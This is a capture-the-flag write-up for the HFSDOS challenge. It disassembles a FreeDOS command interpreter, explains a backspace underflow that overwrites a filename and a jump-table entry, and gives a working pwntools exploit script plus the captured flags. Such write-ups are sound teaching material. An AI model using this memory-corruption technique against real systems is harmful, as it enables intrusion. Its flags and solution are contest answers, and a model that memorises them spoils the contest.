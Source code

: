 ```yaml
---
tags: ["pwn", "dos", "re"]
author: "bennofs"
---
```

# Challenge
> You don't need a modern 'secure' language when you write bug-free code :) The flag is in FLAG2 

This was the second part of the HFSMBR/HFSDOS challenge. After entering the correct password for HFSMBR, we are greeted with:

```
[HFS SECURE SHELL] Here is your flag for HFS-MBR: midnight{w0ah_Sh!t_jU5t_g0t_RE
ALmode} 
[HFS SECURE SHELL] loaded at 100f:0100 (0x101f0) and ready for some binary carna
ge!

[HFS-DOS]> 
```

# Solution
Looking at the strings of the image, the challenge appears to be based on FreeDOS. So let's mount the image to extract the files from the FS:

```
$ sudo losetup -P -f dos.img
$ sudo mount /dev/loop0p1 /mnt
$ ls /mnt
AUTOEXEC.BAT*  COMMAND.COM*  FLAG1*  FLAG2*  KERNEL.SYS*
```

The file we are looking for is COMMAND.COM. This file implements the the command interpreter we saw when we started the challenge. Here's the disassembly of the command-reading loop:

```
seg000:019D read_command:                           ; CODE XREF: commandLoop↑j
seg000:019D                 mov     bx, offset input_buf
seg000:01A0                 mov     input_ptr, bx
seg000:01A4                 mov     input_len, 0
seg000:01AA                 xor     bx, bx
seg000:01AC
seg000:01AC input_loop:                             ; CODE XREF: commandLoop+2D↓j
seg000:01AC                                         ; commandLoop+37↓j ...
seg000:01AC                 mov     bh, 1
seg000:01AE                 mov     ah, 0
seg000:01B0                 int     16h             ; KEYBOARD - READ CHAR FROM BUFFER, WAIT IF EMPTY
seg000:01B0                                         ; Return: AH = scan code, AL = character
seg000:01B2                 cmp     al, 0Dh
seg000:01B4                 jz      short process_command
seg000:01B6                 cmp     al, 7Fh
seg000:01B8                 jnz     short store_char
seg000:01BA                 sub     input_ptr, 1
seg000:01BF                 mov     ah, 3
seg000:01C1                 mov     bh, 0
seg000:01C3                 int     10h             ; - VIDEO - READ CURSOR POSITION
seg000:01C3                                         ; BH = page number
seg000:01C3                                         ; Return: DH,DL = row,column, CH = cursor start line, CL = cursor end line
seg000:01C5                 cmp     dl, 0
seg000:01C8                 jz      short input_loop
seg000:01CA                 dec     dl
seg000:01CC                 mov     ah, 2
seg000:01CE                 mov     bh, 0
seg000:01D0                 int     10h             ; - VIDEO - SET CURSOR POSITION
seg000:01D0                                         ; DH,DL = row, column (0,0 = upper left)
seg000:01D0                                         ; BH = page number
seg000:01D2                 jmp     short input_loop
seg000:01D4 ; --------------------------------------------
```

Note that if `al` (character) is `0x7F` (backspace), we decrement the pointer to the current position in our buffer if the current cursor position is greater than 0.
But because of the prompt, even at the start of the buffer the cursor column is greater than zero. This allows us to overwrite data before the start of the buffer. 
Let's check what's located before the input buffer:

```
seg000:0389                 dw offset jmp_halt
seg000:0395 aFlag1          db 'FLAG1',0            ; DATA XREF: openFlag1+A↑o
seg000:039B                 db  24h ; $
seg000:039C input_buf       db    0                 ; DATA XREF: commandLoop:read_command↑o
```

So there is the name of FLAG1 file and the end of the jump table for the command dispatch. This is quite nice, because it makes the exploit easy:

- overwrite FLAG1 with FLAG2 by changing 1 -> 2
- change `offset jmp_halt` (0x171) to `offset printFlagStage1` (0x14F)

Here's a script that does just that:

```python
#!/usr/bin/env python3
from pwn import *

r = remote(b"hfs-os-01.play.midnightsunctf.se", 31337)
r.sendafter(b"]> ", b"sojupwner")
r.recvline_contains(b"Correct password!")
r.send(b"adssad\r")
r.sendafter(b"]>", b"\x7f"*3 + b"2\r")
r.sendafter(b"]>", b"\x7f"*9 + b"O\r")
r.sendafter(b"]>", b"exit\r")
r.recvuntil(b"Here is your flag")
print(r.recvuntil(b"}").replace(b"\r\n", b""))
r.stream()
```

which gets the flag: 

```
$ ./script.py
[+] Opening connection to b'hfs-os-01.play.midnightsunctf.se' on port 31337: Done
b' for HFS-MBR: midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}'
```
